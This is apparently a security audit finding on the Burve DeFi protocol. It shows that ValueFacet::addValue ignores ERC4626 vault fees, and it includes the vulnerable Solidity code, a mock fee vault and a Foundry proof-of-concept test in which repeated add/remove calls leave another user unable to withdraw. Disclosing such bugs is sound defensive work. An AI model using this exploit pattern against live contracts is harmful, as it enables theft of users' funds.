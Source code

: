 Sneaky Burlap Pigeon

High

# The Closure's Balance May Be Depleted

### Summary
In the `ValueFacet::addValue` function, the `requiredBalances` calculation does not account for the deposit or withdrawal fees from `VaultE4626`. Consequently, when users deposit, the amounts corresponding to these fees are treated as closure's losses in the vault.

### Root Cause
In lines 87-93 of the `addValue` function, the `realNeeded` amount is transferred from the user and deposited into the vault. However, the closure's balance in the vault increases deducting the fees.

https://github.com/sherlock-audit/2025-04-burve/tree/main/Burve/src/multi/facets/ValueFacet.sol#L87-L93
```solidity
    function addValue(
        address recipient,
        uint16 _closureId,
        uint128 value,
        uint128 bgtValue
    )
        external
        nonReentrant
        returns (uint256[MAX_TOKENS] memory requiredBalances)
    {
        if (value == 0) revert DeMinimisDeposit();
        require(bgtValue <= value, InsufficientValueForBgt(value, bgtValue));
        ClosureId cid = ClosureId.wrap(_closureId);
        Closure storage c = Store.closure(cid);
        uint256[MAX_TOKENS] memory requiredNominal = c.addValue(
            value,
            bgtValue
        );
        // Fetch balances
        TokenRegistry storage tokenReg = Store.tokenRegistry();
        for (uint8 i = 0; i < MAX_TOKENS; ++i) {
            if (!cid.contains(i)) continue; // Irrelevant token.
            address token = tokenReg.tokens[i];
            uint256 realNeeded = AdjustorLib.toReal(
                token,
                requiredNominal[i],
                true
            );
            requiredBalances[i] = realNeeded;
87:         TransferHelper.safeTransferFrom(
                token,
                msg.sender,
                address(this),
                realNeeded
            );
93:         Store.vertex(VertexLib.newId(i)).deposit(cid, realNeeded);
        }
        Store.assets().add(recipient, cid, value, bgtValue);
    }
```

### Internal pre-conditions
There is deposit or withdraw fee in the vault.

### External pre-conditions
N/A

### Attack Path
An attacker can drain the closure's balance by repeatedly adding and removing value.

### PoC
The following code demonstrates a scenario where the vault's withdrawal fee is 0.1%. Even if there is yield in the vault, the user cannot withdraw their original assets.

https://github.com/sherlock-audit/2025-04-burve/tree/main/Burve/test/mocks/MockERC4626.sol
```solidity
contract MockERC4626 is ERC4626 {
    constructor(
        ERC20 asset,
        string memory name,
        string memory symbol
    ) ERC20(name, symbol) ERC4626(asset) {}
   
    function previewWithdraw(uint256 assets) public view override returns (uint256) {
        assets = assets * 1001 / 1000;
        return _convertToShares(assets, Math.Rounding.Ceil);
    }

    function previewRedeem(uint256 shares) public view override returns (uint256) {
        return _convertToAssets(shares, Math.Rounding.Floor) * 1000 / 1001;
    }
}
```
https://github.com/sherlock-audit/2025-04-burve/tree/main/Burve/test/facets/ValueFacet.t.sol
```solidity
    function test_AddRemoveValue() public {
        vm.prank(alice);
        valueFacet.addValue(alice, 0x7, 3e20, 0);
        
        uint256[4] memory initBalances = getBalances(bob);
        for (uint256 i = 0; i < 10; i++) {
            vm.prank(bob);
            valueFacet.addValue(bob, 0x7, 6e22, 0);
            vm.prank(bob);
            valueFacet.removeValue(bob, 0x7, 6e22, 0);
        }
        uint256[4] memory currentBalances = getBalances(bob);
        int256[4] memory diffs = diffBalances(currentBalances, initBalances);
        console.log("attacker_diffs[0] : %e", diffs[0]);
        console.log("attacker_diffs[1] : %e", diffs[1]);
        console.log("attacker_diffs[2] : %e\n", diffs[2]);

        MockERC20(tokens[0]).mint(address(vaults[0]), 1e19);
        MockERC20(tokens[1]).mint(address(vaults[1]), 1e19);
        MockERC20(tokens[2]).mint(address(vaults[2]), 1e19);

        vm.prank(alice);
        valueFacet.collectEarnings(alice, 0x7);

        vm.prank(alice);
        console.log("Alice wants to withdraw 2e20 from a total of 3e20!");
        valueFacet.removeValue(alice, 0x7, 2e20, 0);
        console.log("alice successfully withdraw!");
    }
```
forge test --match-test "test_AddRemoveValue" -vv
Result:
```bash
Ran 1 test for test/facets/ValueFacet.t.sol:ValueFacetTest
[FAIL: revert: ST] test_AddRemoveValue() (gas: 7987377)
Logs:
  attacker_diffs[0] : -1e1
  attacker_diffs[1] : -1e1
  attacker_diffs[2] : -1e1

  Alice wants to withdraw 2e20 from a total of 3e20!
```

### Impact
1. Users cannot access the yield from the vault.
2. The closure's balance in the vault could be drained.
3. Users cannot withdraw their assets from this contract.

### Mitigation
Increase the `realNeeded` to account for both deposit and withdrawal fees.
